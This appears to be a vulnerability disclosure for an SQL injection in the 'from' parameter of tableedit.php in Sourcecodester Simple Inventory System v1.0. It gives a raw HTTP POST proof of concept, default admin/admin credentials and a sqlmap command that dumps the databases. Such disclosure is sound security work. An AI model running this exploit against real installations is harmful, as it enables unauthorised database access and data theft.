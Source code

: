 ### SQL injection vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：tableedit.php

injection parameter:$_POST['from']

#### 1.Vulnerability analysis

As shown in the figure below, in tableedit.php, after the from parameter is passed in through post, it is directly spliced into the SQL update statement without any security filtering, resulting in a SQL injection vulnerability. We can obtain any information in the database through error-based injection.

![image-20240517161740724](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Inventory%20System%20Sql%20Inject-3.assets/image-20240517161740724.png)

#### 2.Vulnerability verification and exploit

After admin/admin logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.

```
POST /tableedit.php HTTP/1.1
Host: 10.15.6.184:82
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.15.6.184:82
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.15.6.184:82/tableedit.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ncbt63bs17glrou5b79l17ifm6
Connection: close

from=2024-05-15&to=2024-05-16
```

python .\sqlmap.py -r .\1.txt --batch --dbs

![image-20240517161559656](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Inventory%20System%20Sql%20Inject-3.assets/image-20240517161559656.png)
